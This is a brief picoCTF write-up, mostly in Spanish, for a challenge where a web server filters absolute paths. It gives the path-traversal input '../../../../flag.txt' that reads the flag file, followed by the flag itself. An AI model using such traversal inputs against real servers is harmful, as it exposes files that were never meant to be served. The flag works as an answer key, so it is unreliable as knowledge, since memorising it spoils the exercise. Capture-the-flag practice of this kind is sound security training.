 
## Objetivo
Here's the [website](http://saturn.picoctf.net:55793/).We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?
## Solución
```
Solo se busca el archivo asi: ../../../../flag.txt
picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}
```
## Notas adicionales
## Referencias 
